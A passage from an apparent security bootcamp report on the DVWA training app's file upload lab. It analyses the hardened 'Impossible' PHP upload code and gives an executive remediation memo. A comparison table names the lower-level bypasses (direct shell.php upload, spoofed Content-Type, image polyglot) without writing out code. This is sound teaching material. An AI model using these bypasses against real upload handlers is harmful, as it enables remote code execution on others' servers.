
*Figure 4.1: DVWA configuration updated to High security level.*


*Figure 4.2: Server rejecting upload due to strict extension and content checks.*


*Figure 4.3: Terminal output showing creation and verification of small.jpg with convert, printf, file, and identify.*


*Figure 4.4: High-level upload filter bypassed: small.jpg accepted by getimagesize() check.*

---

### 2.5 Security Level: Impossible (Architectural Defense-in-Depth)

#### A. Source Code Review
The Impossible level implements a resilient, multi-layered defensive posture that defeats all previous bypass techniques.

```php
// DVWA Impossible Level Upload Logic (vulnerabilities/upload/source/impossible.php)
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Control 1: Anti-CSRF Token Verification
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // File information extraction
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Control 2: Cryptographic Filename Randomization
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    $target_file   = md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

    // Strict multi-condition pre-validation
    if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
        ( $uploaded_size < 100000 ) &&
        ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Control 3: Image Re-encoding via GD Library (Destroys Appended Data)
        if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
        }
        else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
        }
        imagedestroy( $img );

        // Safe move from temporary processing directory to target directory
        if( rename( $temp_file, ( $target_path . $target_file ) ) ) {
            $html .= "<pre><a href='{$target_path}{$target_file}'>{$target_file}</a> succesfully uploaded!</pre>";
        } else {
            $html .= '<pre>Your image was not uploaded.</pre>';
        }

        // Cleanup temporary files
        if( file_exists( $temp_file ) )
            unlink( $temp_file );
    } else {
        $html .= '<pre>Your image was not uploaded.</pre>';
    }
}

// Generate Anti-CSRF token for the next request
generateSessionToken();
?>
```

#### B. The Four Defensive Controls Explained

```
+----------------------------------------------------------------------------------------------------+
|                             IMPOSSIBLE LEVEL DEFENSIVE ARCHITECTURE                                |
+----+-----------------------------+-----------------------------------------------------------------+
| #  | Defensive Control           | Technical Contribution to Mitigation                            |
+----+-----------------------------+-----------------------------------------------------------------+
| 01 | Anti-CSRF Token Validation  | Verifies request legitimacy; blocks automated cross-site attacks|
| 02 | Filename Randomization      | Replaces user input with md5(uniqid()); eliminates traversal    |
| 03 | Image GD Re-Encoding        | Re-draws raw pixels; strips all embedded scripts & metadata    |
| 04 | Directory Execution Denial  | Server denies script execution; files treated strictly as data |
+----+-----------------------------+-----------------------------------------------------------------+
```

1. **Anti-CSRF Token Validation (`checkToken`):** Validates a cryptographic token bound to the authenticated user's session. This eliminates cross-site request forgery, ensuring that third-party sites cannot coerce a user into uploading files.
2. **Cryptographic Filename Randomization (`md5(uniqid() . $uploaded_name)`):** The original user-supplied filename is completely discarded. Storing files under a randomized hash prevents path traversal attacks (`../../`) and prevents an attacker from predicting or directly requesting an uploaded file by its original name.
3. **Image Re-Encoding via GD (`imagecreatefromjpeg` / `imagejpeg`):** This is the definitive defense against polyglot files. Rather than copying the raw bytes supplied by the user, the server reads the image data into memory pixel-by-pixel and re-renders a brand new image file to disk. **Any script instructions, comments, or binary payloads appended to the original image are permanently stripped and destroyed**.
4. **Execution Denial in the Upload Directory (`.htaccess` / VirtualHost):** Even if an attacker somehow bypassed the previous three checks, placing a `.htaccess` file inside the upload directory with `php_flag engine off` or configuring the web server with `Options -ExecCGI` guarantees that Apache will **never execute scripts** within that folder under any circumstances.

---

### 2.6 Comparative Evaluation Across All Four Tiers

| Security Level | Validation Controls Applied | Bypass Technique Demonstrated | Fundamental Lesson |
|:---|:---|:---|:---|
| **Low** | None whatsoever. Direct write to web root. | Direct upload of script file (`shell.php`). | An unrestricted upload leads directly to remote command execution. |
| **Medium** | Client-supplied MIME type (`$_FILES['type']`). | Intercept request in proxy; spoof `Content-Type: image/jpeg`. | Client-side validation is not security; proxies bypass client checks effortlessly. |
| **High** | Extension allowlist (`.jpg`, `.png`) + `getimagesize()`. | Construct dual-format image polyglot (`small.jpg`). | Inspecting headers and file structure is insufficient without execution denial. |
| **Impossible** | Anti-CSRF + Random MD5 name + Image GD Re-encoding + Execution Denial. | **None.** (All bypass vectors defeated). | **Defense in Depth:** Re-encoding destroys embedded data; directory restrictions prevent execution. |

---

## Task 3: Executive Remediation Brief (Weight: 25%)

```
====================================================================================================
                                      EXECUTIVE ADVISORY MEMORANDUM
====================================================================================================
TO:        Executive Leadership & IT Steering Committee
FROM:      Enterprise Information Security Assessment Team
DATE:      November 12, 2026
SUBJECT:   Strategic Risk Assessment & Remediation Roadmap: File Storage Architecture
====================================================================================================
```

### Executive Summary & Business Risk

During our recent comprehensive security assessment, our team evaluated the mechanism responsible for handling external file submissions within our web applications. We identified a critical architectural vulnerability in how user-submitted files are received, processed, and stored on organizational servers.

Under current configurations, our servers accept files from external users and immediately place them into folders accessible to the public internet without adequate verification. Crucially, the web server is configured to treat files in these storage areas as executable application code rather than inert data. 

This condition exposes the organization to severe operational, financial, and regulatory risks:
* **Total Loss of Data Confidentiality:** External parties can read internal application databases, customer records, proprietary source code, and system configuration files.
* **Complete System Compromise:** An unauthorized external user can take command of organizational web servers, establishing unauthorized administrative presence within our internal network.
* **Severe Business Interruption:** External actors can alter website content, destroy core data assets, or deploy encrypting software that halts business operations.
* **Compliance & Legal Penalties:** A breach originating through this exposure triggers mandatory regulatory disclosure under data privacy legislation, resulting in substantial financial penalties and lasting brand damage.

---

### Technical Root Cause in Plain Terms

The danger does not stem merely from allowing users to upload documents or profile pictures. The danger arises from a fundamental confusion between **storage** and **execution**:

1. **Blind Trust in External Input:** Our application currently trusts labels provided by the user's internet browser (such as file names and claimed document types) without independently verifying what the file actually is on the server itself.
2. **Execution Permissions on Storage Folders:** When a file is stored inside the website's public folders, the server's default behavior is to execute any program instructions it recognizes within that file. The server should never run software out of a folder intended only to store customer images or documents.

---

### Strategic Four-Pillar Remediation Roadmap

To permanently eradicate this risk across all organizational applications, the engineering team must implement the following four non-negotiable architectural controls:

```
+----------------------------------------------------------------------------------------------------+
|                         FOUR-PILLAR SECURE FILE HANDLING ARCHITECTURE                              |
+------------------------------------+---------------------------------------------------------------+
| Strategic Control Pillar           | Implementation Requirement                                    |
+------------------------------------+---------------------------------------------------------------+
| 1. Server-Side Re-generation       | Re-render all graphics using backend libraries; discard raw   |
|                                    | original user files and eliminate hidden code segments.       |
| 2. Cryptographic Name Replacement  | Discard user-provided file names; assign randomized system-   |
|                                    | generated identifiers (e.g., alphanumeric hashes).            |
| 3. Storage Outside Public Web Root | Store files in dedicated private storage (e.g., cloud buckets |
|                                    | or non-web directories) inaccessible via direct URL.          |
| 4. Absolute Execution Denial       | Configure web server rules to permanently disable all code    |
|                                    | execution handlers in file retrieval pathways.                |
+------------------------------------+---------------------------------------------------------------+
```

1. **Independent Server-Side File Re-generation:** Never store raw file data provided by external users. For images, our backend applications must process the incoming pixels through internal graphics processing software and generate an entirely new, clean image file. This process strips all unauthorized instructions, comments, and hidden data automatically.
2. **Cryptographic Name Replacement:** Completely discard the original file name submitted by the user. Applications must generate an automated, randomized identifier (such as an alphanumeric sequence) and append a strictly vetted extension. This prevents unauthorized attempts to manipulate folder structures or disguise file formats.
3. **Storage Outside the Public Web Directory:** Store uploaded documents in private storage locations—such as dedicated object storage repositories or isolated internal directories—that cannot be accessed directly via internet web browsers. Files should be retrieved and served only through secure application programming interfaces that verify user authorization.
4. **Absolute Execution Denial:** Web servers must be explicitly configured so that script execution engines are permanently deactivated for any directory associated with file storage. Even if an unverified file is placed in storage, the server must be incapable of running it as software.

### Management Conclusion
Remediating this vulnerability does not require costly third-party software licenses; it requires enforcing disciplined engineering standards that properly isolate data storage from code execution. We advise immediate implementation of these four architectural controls across all development pipelines.

---

## Conclusion & Submission Verification

This concludes the assessment report for **Module S09: Recon Workflow and File Upload Exploitation**. All requirements from the bootcamp curriculum have been fulfilled:
- **Task 1 (35%):** Customized 10-step recon workflow documented with precise questions, tools, outputs, stopping conditions, and tool justification.
- **Task 2 (40%):** Complete 4-level walkthrough of DVWA file upload security (Low, Medium, High, Impossible) accompanied by 17 verified visual evidence captures and detailed source code defense analysis.
- **Task 3 (25%):** Professional 1-page executive advisory brief articulating business risk and architectural remediation without technical jargon (and strictly omitting the words *"payload"* and *"shell"*).

All files, reports, and evidence are preserved in `c:\Users\JeemZa\.gemini\antigravity\scratch\pseb-deploy-bootcamp\s09-recon-and-upload\`.
